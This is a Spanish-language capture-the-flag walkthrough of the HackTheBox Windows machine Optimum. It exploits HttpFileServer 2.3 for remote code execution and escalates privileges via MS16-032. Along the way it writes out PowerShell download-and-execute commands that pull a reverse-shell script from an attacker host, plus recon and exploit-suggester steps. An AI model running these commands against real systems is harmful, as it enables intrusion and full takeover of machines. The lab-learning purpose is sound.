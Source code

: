 # Optimum-HTB 

Maquina Windows

## NMAP

Solo tiene el puerto 80 abierto..

##  RCE 

Pues entramos al puerto 80 y vemos que ejecuta "HttpFileServer 2.3"

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/650fe637-acbf-4b1b-aaa1-371757a8402a)

Buscamos en searchsploit y existe de una el exploit...

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/5f64a75d-ebe8-4ee4-b92c-68e7e6ac47af)

De aqui en adelante depende lo que se va a hacer ya que si estas en 64 o 32 como proceso (porque el sistema es de 64bits)

### Rutas de powershell segun si es x86 o x64

Porque depende en Windows que ruta llames para que te de un proceso en el contexto de 32 bits o 64 las rutas y que se usaron para este exploit son:

Powershell de un proceso de 32 a un ps de 64 pero el HFS corre en 32 recuerda:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
```

Pero el HFS corre en 32 recuerda. La siguiente ruta va a lanzar el ps en 32bits

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Esto porque las rutas de Windows son:

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/655ec89c-e633-411a-a5b0-3e0b670bd5ce)

Ejecutando el exploit 

```
64 bits
python 49125.py 10.129.8.234 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80/Invoke-PowerShellTcp.ps1')"
32bits
python 49125.py 10.129.8.234 80 "c:\windows\System32\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80/Invoke-PowerShellTcp.ps1')"
```

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/abf869fd-3dbe-4720-9e65-5fe563af9349)


Para saber desde powershell la arquitectura

```
[Environment]::Is64BitProcess
```

## PrivEsc

Ahora para escalar vamos a hacer reconocimiento basico..

```
systeminfo
net user
net localgroup
netstat -ano
whoami /priv
whoami /all #miembro de que grupos
```

Ahora bajamos el Winpeas.exe y ejecutamos aunque como es una maquina vieja probamos con los exploits para esto tenemos varias alternativas...

### Watson 

Es una herramienta para sugerencia de exploits ya descontinuada como por el 2021 aun jala para que funcione el minimo que necesita es el NET Framework 4.5.

> https://github.com/rasta-mouse/Watson

Lo malo de esta herramienta es que se tiene que compilar en la maquina Devel ahi se muestra como lo compilan con diferentes opciones.


### Sherlock

Esta es el predesesor de Watson y es un script en powershell ya sabes esta descontinuado casi a la par del Watson

```
Import-Module Sherlock.ps1
Y ya despues que buesque
Find-AllVulns
```
> https://github.com/rasta-mouse/Sherlock

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/bcbf5fdf-460a-4ae5-a42d-cf5a02447281)


## Windows-Exploit-Suggester

Una de las mejores tools porque usas el output de systeminfo 

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/c717e880-23ef-4f44-9e30-df3b1ada38f6)


```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo_output.txt
```

> https://github.com/AonCyberLabs/Windows-Exploit-Suggester

## Exploits ya compilados windows

Esta pagina es propiedad de offesive y tiene muchos exploits ya compilados

> https://gitlab.com/exploit-database/exploitdb-bin-sploits


Encontramos que tiene una vulnerabildiad a MS16-032 la primera version genera una shell pero ni lanzandola con nc pude hacerla jalar por lo tanto use la version modificada por el equipo de empire

> https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1


Hasta abajo puse para que se auto llame el proceso seria el siguiente

```
powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.80/Invoke-MS16032.ps1')
La linea que se le agrego es
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.80/rev1.ps1')"

```

Asi que primero carga en la memoria todo y ya despues lo ejecuta. Lo anterior regresa un shell con todos lo privilegios....


![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/bef40c66-44dc-4b97-b0b4-8aa3a696f26e)


























































